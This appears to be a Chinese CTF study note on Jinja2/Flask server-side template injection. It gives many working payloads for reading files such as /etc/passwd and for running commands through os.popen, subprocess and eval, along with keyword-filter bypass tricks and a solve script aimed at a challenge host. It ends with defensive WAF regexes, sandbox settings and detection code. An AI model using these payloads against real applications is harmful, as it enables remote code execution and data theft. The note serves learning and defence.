

同理, `select|string|list`:


接下来, 考虑到可用字符集, 用拼接字典的方式构造 payload:

> `%0a` (换行符) 用于绕过空格的过滤;

```perl
#构造po="pop"     #利用dict()|join拼接得到

 
#构造a=(()|select|string|list).pop(24),这里a即下划线_

 
#构造ini="__init__"

 
#构造glo="__globals__"

 
#构造geti="__getitem__"

 
#构造built="__builtins__"

 
#构造sub="__subclasses__"


#构造chr()函数调用



#构造file='/flag'
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
```

同样 `set` 是可用的, 考虑构造:

```python
import requests

url = "http://9715ab4d-3ad0-491f-8476-32dc25d93bd8.node5.buuoj.cn:81/login"
payload = "{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{% set space = bfhc%((three~two)|int) %}{{b(pld)}}"

payload = payload.replace(' ', '\n')
data = {"username": payload, "password": "123456"}
r = requests.post(url=url, data=data)
print(r.text)

```

然后把所有的空格换成 `'\n'` 或者 `%0a`



#### 参考博客:

> [CSDN 总结](https://blog.csdn.net/2301_76690905/article/details/134301620)

> [※以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用](https://buaq.net/go-74232.html)

### 思路汇总

SSTI 开局的思路无外乎这几种:

- 查配置文件
- 命令执行（其实就是沙盒逃逸类题目的利用方式）
- 文件读取


1. 读取任意文件: (仅限 python 2):
```python
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

>  `__subclasses__[40]` 指向 `<type 'file'>`, 此file类可以直接用来读取文件;

2. 读取任意文件: (python 3)

```python
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

> 要得到这个 payload, 可以编写一个脚本, 遍历 `__class__.__bases__[0].__subclasses__()` 这个列表即可;

> 我们可以用 `<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。

3. 利用 `eval()` 执行任意命令 (RCE)

典型 payload:

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

> 这些类的典型的 含 `eval()` 函数的类:
> - `warnings.catch_warnings`
> - `WarningMessage`
> - `codecs.IncrementalEncoder`
> - `codecs.IncrementalDecoder`
> - `codecs.StreamReaderWriter`
> - `os._wrap_close`
> - `reprlib.Repr`
> - `weakref.finalize`
> - ......

如果不确定这个类有没有 `eval()` 来执行代码, 可以写个脚本, 来遍历所有类的内置函数:

```python
{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}
```

4. 利用 os 模块执行任意命令 (RCE)

Python的 os 模块中有`system()`和 `popen()`这两个函数可用来执行命令。其中 `system()` 函数执行命令是没有回显的，我们可以使用 `system()` 函数配合 `curl` 外带数据；`popen()` 函数执行命令有回显。所以比较常用的函数为 `popen()` 函数，而当 `popen()` 函数被过滤掉时，可以使用 `system()` 函数代替。

> 找含 os 模块的类的思路是类似的, 脚本:
> ```python
> # 遍历 os 模块, 这样不一定准确
> for i in range(500):
>    url = "http://xxx.xxx.xxx.xxx:xx/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"
>
>    res = requests.get(url=url, headers=headers)
>    if 'os.py' in res.text:
>        print(i)
>
> # 遍历找 popen() 更准确, 把 os.py 换为 popen 即可
>
> ```

一般有一大堆, 随便挑一个类构造payload执行命令即可：

```python
# os
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}

# popen
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```

5. importlib 类导入后执行任意命令:

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'> `类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。

> 查找脚本和前文差不多;

payload:

```python
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```

6. 寻找 `linecache()` 函数执行命令:

`linecache()` 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 `linecache()` 函数去执行命令。

典型 payload:

```python
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

7. 寻找 `subprocess.Popen` 类执行命令
从 python2.4 版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system()`,`os.popen()` 等函数。

> 要找这个类, 需要遍历 `().__class__.__bases__[0].__subclasses__()["+str(i)+"]`;

典型 payload:

```python
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
```

### Bypass 总结

#### 绕过常规关键字

##### 字符串拼接

对关键字的过滤可以用字符串拼接来绕过, 例如:

```python
{{().__class__.__bases__[0]}}

# 等同于

{{().__class__['__base'+'s__'][0]}}

# 这里的 '+' 可以是 '~', 甚至可以什么都不填, python 会自动拼接括号内的两个相邻字符串
```

也可以使用 `join()` 来绕过:

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
# 绕过对 flag 的过滤
```

##### 编码绕过

用编码绕过对关键字的过滤, 例如 base64:

```python
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))

# 等价于

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

# 此处的 encode(), decode() 方法的返回值仍然是一个字符串, 因此不影响语法正确性;
```

不光是这种编码, Hex 编码和 Unicode 编码也可以;

#### 绕过中括号

##### `.__getitem__()`

对于绕过了中括号的场景, 任何 `[]` 都可以用 `__getitem__()` 来替代, 例如:

```python
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
['__builtins__'].__getitem__('eval')
```

##### `.pop()`

也可以用 `pop()` 方法来代替 `[]` 做索引, 例如上面的第一行 payload 也等价于:

```python
"".__class__.__mro__.pop(2)
```

##### 用字典读取绕过

访问字典除了可以通过 `[]`, 还可以用 `.`:

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
# 等价于
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

#### 绕过引号

##### 利用 `chr()` 绕过

利用 `chr()` 函数进行赋值和拼接绕过, 注意, **要先从 `__builtins__` 中获取这个函数**:

```python
{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# 等价于

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

##### 利用 `request` 对象绕过

原理就是将加 `''` 的步骤放到传参时自动加上而不是手动赋予;

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /

# 等价于

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

`args` 也可以换成 `value`, 区别在于 `value` 会同时接受 GET 和 HOST 的传参;

#### 绕过下划线

##### 利用 `request` 对象绕过

和上面是同一个姿势:

```python
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

# 等同于

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 绕过 `.` 

##### 利用 `|attr()` 绕过

这个函数是 Jinja2 (Flask) 自带的函数:

```python
().__class__

# 等同于

()|attr('__class__')
```

##### 中括号绕过

和前文也比较类似:

```python
''.__class__.__bases__

# 等同于

''['__class__']['__bases__']
```

...

剩余的详尽的 Bypass 在这个博客里: [※以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用](https://buaq.net/go-74232.html), 质量非常高。

#### 使用 JinJa 的过滤器进行 Bypass

在 Flask JinJa 中，内只有很多过滤器可以使用，`attr()` 就是其中的一个过滤器。变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（`|`）隔开，**括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号**。可以使用管道符号（`|`）连接多个过滤器，一个过滤器的输出应用于下一个过滤器。

其余管道符在官方文档里有: [官方文档](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters)

### 蓝队视角下的 SSTI (WAF)

#### 最小化攻击面

- 开启浏览器 HTML 自动转义: `autoescape=False` =>`autoescape=True`

> 这个措施会将 `<>`, `{}` 等字符转义, 同时能防御一些 XSS 攻击;

- 禁用模板语法, 例如: ``

#### 防御分层


#### 简易的 WAF 示例设计

1. 基础关键词过滤:

例如:
```
(__class__|__mro__|__subclasses__|__globals__|__builtins__|__init__|os\.system|popen|eval|exec)
```

2. Bypass 过滤:

利用正则表达式, 例如:

```
# 拼接绕过检测
(\w{4,10}[\+~]\w{4,10})

# 编码绕过检测
(\\x[0-9a-f]{2}|\\u[0-9a-f]{4})

# 逆序特征
(__ssalc__|__orbm__|__sessalcbus__)

# 属性访问替代
(\|attr\(['"]__\w+__['"]\))
```

3. 上下文敏感规则

```
# 检测模板语法中的危险操作
(\{\{.*?__\w+__.*?\}\}|\{\%.*?__\w+__.*?\%\})

# 检测异常对象链
(\w+\.){4,}\w+  # 阻断连续4级以上的属性访问
```

#### 沙箱安全

Jinja2 沙箱为例:

```python
from jinja2.sandbox import SandboxedEnvironment

env = SandboxedEnvironment(
    autoescape=True,
    overrides={
        '__class__': None,
        '__mro__': None,
        '__subclasses__': None,
        '__globals__': None,
        '__builtins__': {
            'range': range,
            'len': len,
            'str': str  # 仅开放白名单函数
        }
    },
    # 禁用危险语法
    block_start_string='<|',
    block_end_string='|>',  # 修改原生语法标记
    variable_start_string='<<',
    variable_end_string='>>'
)
```

#### 运行时防护

1. 行为监控

```python
class SecurityMonitor:
    def __init__(self):
        self.suspicious_ops = 0
        
    def check_operation(self, op_name):
        HIGH_RISK_OPS = ['subprocess', 'popen', 'os.', 'import']
        if any(risk in op_name for risk in HIGH_RISK_OPS):
            self.suspicious_ops += 1
            if self.suspicious_ops > 3:  # 阈值触发
                raise SecurityException("SSTI attack detected")
```

2. 动态 Payload 分析

```python
def analyze_payload(input_str):
    # 检测异常结构
    if re.search(r"\.__.*?__\(", input_str): 
        return "高危操作"
    
    # 检测长调用链
    if input_str.count('.') > 3: 
        return "可疑调用链"
    
    # 检测十六进制编码
    if re.search(r"\\x[0-9a-f]{2}", input_str): 
        return "编码绕过尝试"
```

#### WAF 架构

